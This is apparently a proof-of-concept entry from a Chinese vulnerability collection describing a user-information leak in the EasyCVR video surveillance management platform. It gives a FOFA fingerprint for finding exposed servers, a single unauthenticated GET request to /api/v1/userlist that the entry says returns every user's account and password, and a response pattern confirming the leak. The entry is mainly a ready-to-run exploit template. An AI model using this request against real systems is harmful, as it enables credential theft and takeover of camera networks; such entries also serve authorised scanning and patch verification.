 ﻿# EasyCVR 视频管理平台存在用户信息泄露

> 更新时间：2023-12-20

> 漏洞编号：

> 漏洞说明：EasyCVR 智能视频监控综合管理平台是一种针对大中型用户在跨区域网络化视频监控集中管理领域的安防管理软件。它具备多项功能，包括信息资源管理、设备管理、用户管理、网络管理和安全管理。该平台能够实现监控中心对所有视频监控图像的集中管理，并支持多个品牌设备的联网，确保联网视频监控传输质量，并提供资源统一检索和数据共享的功能。EasyCVR 部分版本存在用户信息泄露漏洞，攻击者可直接通过此漏洞获取所有用户的账号密码。

> 漏洞特征：fofa:title="EasyCVR"

> 验证脚本：HTTP

```
GET /api/v1/userlist?pageindex=0&pagesize=10 HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?username)(?=.*?password).*?$

> 上传文件定位：


> 验证文件来源：EasyCVR 视频管理平台存在用户信息泄露.poc
